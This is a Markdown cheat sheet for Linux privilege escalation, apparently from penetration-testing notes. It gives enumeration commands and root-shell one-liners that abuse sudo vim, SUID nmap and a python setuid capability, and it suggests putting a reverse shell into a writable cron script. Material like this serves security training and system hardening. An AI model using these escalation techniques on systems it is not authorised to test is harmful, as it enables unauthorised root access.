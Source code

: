 # Linux - Privilege Escalation Vectors

After collecting enumeration data, correlate your findings with known privilege escalation paths. These may involve sudo misconfigurations, vulnerable SUID binaries, cron jobs, capabilities, kernel exploits, or writable scripts.

---

## Common Paths & Validation Commands

```bash
# Check sudo rights
sudo -l

# List writable files owned by root
find / -writable -uid 0 -type f 2>/dev/null

# Identify unusual SUID binaries
find / -perm -4000 -type f 2>/dev/null | grep -v -e '/bin/' -e '/sbin/'

# Check cron jobs owned by root
cat /etc/crontab
ls -l /etc/cron.d/ /var/spool/cron/crontabs/

# Identify file capabilities
getcap -r / 2>/dev/null

# Kernel version for exploit suggestion
uname -r
```

---

## Example Paths

- **Sudo rights abuse**  
  ```bash
  $ sudo -l
  (ALL : ALL) NOPASSWD: /usr/bin/vim
  ```
  → Use GTFOBins technique: `sudo vim -c '!sh'`

- **Writable script in cron**
  ```bash
  $ ls -l /etc/cron.d/backup
  -rw-rw-r-- 1 root john  /etc/cron.d/backup
  ```
  → Inject reverse shell into the script.

- **SUID on nmap**
  ```bash
  $ /usr/bin/nmap --interactive
  nmap> !sh
  ```

- **Exploitable capabilities**
  ```bash
  $ getcap /usr/bin/python3.8
  /usr/bin/python3.8 = cap_setuid+ep
  $ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
  ```

---

## Notes

- Always validate GTFOBins techniques for allowed sudo/SUID binaries.
- Look for misconfigured services, writable service unit files, or wildcards in cron.
- Use exploit suggester tools (e.g., `linux-exploit-suggester.sh`) for kernel-specific exploits.
- Use LinPEAS or LinEnum for automated checks and validation.

---

## References

- [HackTricks – Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)  
- [GTFOBins – Escalation via Binaries](https://gtfobins.github.io)  
- [LinPEAS – Automated Local PE Enumeration](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
